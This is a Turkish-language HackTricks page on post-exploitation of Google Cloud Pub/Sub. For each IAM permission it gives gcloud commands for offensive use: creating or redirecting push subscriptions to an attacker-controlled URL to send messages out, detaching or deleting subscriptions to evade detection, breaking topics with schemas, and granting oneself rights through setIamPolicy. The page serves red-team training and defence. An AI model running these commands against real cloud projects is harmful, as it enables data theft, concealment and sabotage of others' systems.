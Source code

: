 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfayı kontrol edin:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuda mesaj yayınlayın, **beklenmedik veriler göndermek** ve beklenmedik işlevleri tetiklemek veya zafiyetleri istismar etmek için kullanışlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Bir aboneliğin mesaj almasını önlemek için yararlıdır, belki de tespiti önlemek için.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını önlemek için faydalıdır, belki de tespiti önlemek için.\
Bir konuya bağlı abonelikler olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Bu izni, konuyu bozmak için bazı ayarları güncellemek için kullanın, örneğin `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Önceki saldırılardan herhangi birini gerçekleştirmek için kendinize izin verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusundaki tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu **mesajları çekmek** için kullanın:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek**, bir günlük işleme sistemini veya benzeri bir şeyi kesintiye uğratmak için faydalı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Bu izni, mesajların erişebileceğiniz bir yerde (URL, Big Query tablosu, Bucket) saklanması için bazı ayarları güncellemek veya sadece bunu bozmak için kullanın.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Sana daha önce bahsedilen saldırıları gerçekleştirmek için gereken izinleri ver.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya ekleyerek mesajların onu karşılamasını sağla ve böylece konuyu boz.\
Eğer hiç şema yoksa, bir tane oluşturman gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Bu, bir şemayı silmek gibi görünebilir; böylece şemaya uymayan mesajlar gönderebilirsiniz. Ancak, şema silineceği için hiçbir mesaj aslında konuya girmeyecektir. Bu nedenle bu **ANLAMSIZDIR**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Önceki yorumlanan saldırıları gerçekleştirmek için gereken izinleri kendinize verin.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Bu, tüm onaylanmamış mesajların bir anlık görüntüsünü oluşturacak ve bunları aboneliğe geri koyacaktır. Bir saldırgan için çok faydalı değil ama burada:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
